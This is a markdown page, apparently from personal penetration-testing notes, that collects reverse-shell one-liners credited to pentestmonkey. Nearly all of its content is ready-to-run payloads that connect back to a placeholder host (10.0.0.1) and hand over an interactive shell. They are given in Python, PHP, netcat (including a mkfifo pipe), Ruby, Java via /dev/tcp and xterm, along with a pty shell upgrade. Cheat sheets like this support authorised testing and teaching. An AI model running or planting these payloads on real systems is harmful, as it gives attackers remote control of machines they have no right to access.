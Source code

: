 ```yaml
---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting, reverse shells
---
```


# Reverse Shells


| Reverse shell | Link to resource |
| ------------- | ---------------- |
| Netcat for windows 32/64 bit | [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe) |


Source for the following code: [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```


## bash

```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


## php

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


## java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  

## xterm

```bash
xterm -display 10.0.0.1:1
```
  